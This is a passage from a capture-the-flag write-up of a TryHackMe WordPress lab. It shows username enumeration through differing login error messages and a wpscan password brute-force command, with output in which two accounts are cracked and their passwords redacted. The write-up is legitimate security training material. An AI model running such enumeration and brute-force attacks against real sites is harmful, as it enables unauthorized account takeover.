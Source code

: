 `Error: The password you entered for the username patrick is incorrect.`

That being said, **we can enumerate all valid usernames via different responses.**

> If you're interested in enumerating valid usernames via different responses, you can read my PortSwigger Lab one of my [writeup](https://siunam321.github.io/ctf/portswigger-labs/Authentication/auth-1/).

Luckly, `wpscan` already did the job for us.

**Now `wpscan` also can help us to brute force user's password:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# wpscan --url http://bankctf.thm/wordpress/ -U 'patrick,manager' -P clean_robots.txt
[...]
[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - manager / {Redacted}                                                                    
[SUCCESS] - patrick / {Redacted}                                                                              
Trying patrick / Vamos! Time: 00:00:14 <=============                   > (148 / 344) 43.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: manager, Password: {Redacted}
 | Username: patrick, Password: {Redacted}
```

We found their passwords!

**Let's login to their account, and check who has administrator permission:**

- Patrick:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221228234140.png)

